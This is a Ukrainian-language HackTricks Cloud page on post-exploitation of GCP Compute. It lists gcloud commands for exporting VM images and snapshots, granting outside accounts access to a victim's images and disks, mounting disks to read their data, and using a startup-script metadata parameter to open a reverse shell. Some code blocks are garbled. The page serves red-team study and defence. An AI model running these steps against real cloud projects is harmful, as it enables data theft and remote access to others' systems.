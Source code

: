 # GCP - Compute Post Exploitation

## GCP - Післяексплуатаційна обробка обчислень

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію в рекламі на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub**.

</details>

### Обчислення

Для отримання додаткової інформації про Обчислення та VPC (Мережування) перегляньте:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

#### Експорт та Інспекція зображень локально

Це дозволить зловмиснику **отримати доступ до даних, що містяться вже в існуючих зображеннях** або **створити нові зображення запущених ВМ** та отримати доступ до їх даних без доступу до запущеної ВМ.

Можливо експортувати зображення ВМ до відра та потім завантажити його та підключити локально за допомогою команди:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Перед виконанням цієї дії зловмиснику може знадобитися привілеї над сховищем та безумовно **привілеї над cloudbuild**, оскільки саме **цей сервіс** буде запитаний для виконання експорту. Крім того, для успішної роботи потрібно, щоб у кодбілд SA та у обчислювальному SA були привілеї. SA cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` потребує:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

А SA `<project-id>-compute@developer.gserviceaccount.com` потребує:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

#### Експорт та перегляд снапшотів та дисків локально

Прямий експорт снапшотів та дисків неможливий, але можливо **перетворити снапшот у диск, диск у зображення** і, виконавши **попередній розділ**, експортувати це зображення для подальшого перегляду локально

{% code overflow="wrap" %}
```
```
{% endcode %}

\`\`\`bash # Create a Disk from a snapshot gcloud compute disks create \[NEW\_DISK\_NAME] --source-snapshot=\[SNAPSHOT\_NAME] --zone=\[ZONE]

## Create an image from a disk

gcloud compute images create \[IMAGE\_NAME] --source-disk=\[NEW\_DISK\_NAME] --source-disk-zone=\[ZONE]

````
### Огляд зображення при створенні віртуальної машини

З метою доступу до **даних, збережених у зображенні** або всередині **запущеної віртуальної машини**, з якої **зловмисник створив зображення**, можна надати зовнішньому обліковому запису доступ до зображення:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
````

і потім створіть нову віртуальну машину з неї:

```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

Якщо ви не можете надати доступ до свого зовнішнього облікового запису через зображення, ви можете запустити віртуальну машину, використовуючи це зображення в проекті жертви та **зробити метадані виконати зворотний shell** для доступу до зображення, додавши параметр:

```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```

#### Огляд снапшоту/диска, підключення до віртуальної машини

З метою доступу до **даних, збережених на диску або снапшоті, ви можете перетворити снапшот у диск, диск у зображення та виконати попередні кроки.**

Або ви можете **надати зовнішньому обліковому запису доступ** до диска (якщо вихідним пунктом є снапшот, надайте доступ до снапшоту або створіть з нього диск):

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```

**Прикріпіть диск** до екземпляру:

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```

Підключіть диск всередині віртуальної машини:

1. **SSH в машину**:

```sh
gcloud compute ssh [ІМ'Я_ЕКЗЕМПЛЯРА] --zone [ЗОНА]
```

2. **Визначте диск**: Після входу в машину, визначте новий диск, перелічуючи пристрої дисків. Зазвичай ви можете знайти його як `/dev/sdb`, `/dev/sdc`, тощо.
3. **Форматуйте та підключіть диск** (якщо це новий або необроблений диск):

* Створіть точку монтування:

```sh
sudo mkdir -p /mnt/disks/[ТОЧКА_МОНТУВАННЯ]
```

* Підключіть диск:

```sh
sudo mount -o discard,defaults /dev/[ПРИСТРІЙ_ДИСКУ] /mnt/disks/[ТОЧКА_МОНТУВАННЯ]
```

Якщо ви **не можете надати доступ до зовнішнього проекту** до знімка або диска, вам може знадобитися виконати ці дії всередині екземпляра в тому ж проекті, що й знімок/диск.
